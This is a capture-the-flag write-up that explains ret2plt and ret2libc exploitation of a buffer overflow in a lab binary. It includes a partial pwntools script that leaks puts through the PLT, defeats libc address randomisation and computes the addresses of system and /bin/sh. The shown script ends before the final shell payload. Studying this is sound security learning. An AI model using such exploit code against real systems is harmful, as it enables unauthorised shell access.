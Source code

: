 This actually took me the longest to solve, because I didn't recognise what it was, actually two things: its a 'ret2plt' and a 'ret2libc' (though a ret2plt is basically always a ret2libc as well). A ret2libc is when you don't have any win function, or way of running shell code etc, but since almost all binaries use libc and libc contains both the `system` function and a string in it somewhere like `/bin/sh`, you can set up your stack with the address of system and the address of the string and have the normal execution run `/bin/sh` for you, spawning a shell.

In order for a ret2libc to work, its best to know the exact version of libc the binary is using, which is often different between your attack box and the target (this can trip up many an exploit writer). Here they provide the libc for you, and the binary is built to use that exact file which is local to it, so that problem is solved. However, the reason why we need 'ret2plt' is because the libc binary is PIE, meaning the address of system and the /bin/sh string are random on launch. Fortunately the binary itself is non-PIE, meaning we can work out somethings, name the address of functions in the PLT table.

PLT/GOTs are facilities in a binary that provide lookups to target functions. The code above calls puts, but the address of puts (which is in libc) is not known at compile time as libc is PIE. Instead, when run, the OS will put the real addresses into this lookup table which the code above uses. A 'ret2plt' is when we have some functionlity that writes data to the screen, like we have here with puts that we know is in the plt. What we do is we overflow as normal, but instead of returning to system, we call puts via our overflow and give it as an argument the address of puts itself. Finally we set the return address following the call to puts back to the main function, going around again - now we have the real address of puts, we can calcualate the base address of libc, then calculate the real addresses of system and /bin/sh, and do the overflow again to get a shell.

A little bit complicated, and stack alignment can be a pain in the ass, but it works:

```python
from pwn import *

# p = process("./thelibrarian")
# gdb.attach(p)
p = remote('10.10.88.29', 9008)

p.clean()

binary = ELF('./thelibrarian')
libc = ELF('./libc.so.6')

puts_plt = binary.plt['puts']
puts_got = binary.got['puts']
main_addr = binary.symbols['main']

rop = ROP(binary)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0] # could be prefound, but bah
ret_gadget = rop.find_gadget(['ret'])[0]

offset = 264

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)
p.recvuntil(b"let's go!\n\n")

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
puts_offset = libc.symbols['puts']
libc_base = puts_leak - puts_offset
system_addr = libc_base + libc.symbols['system']
exit_addr = libc_base + libc.symbols['exit']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

p.clean()
```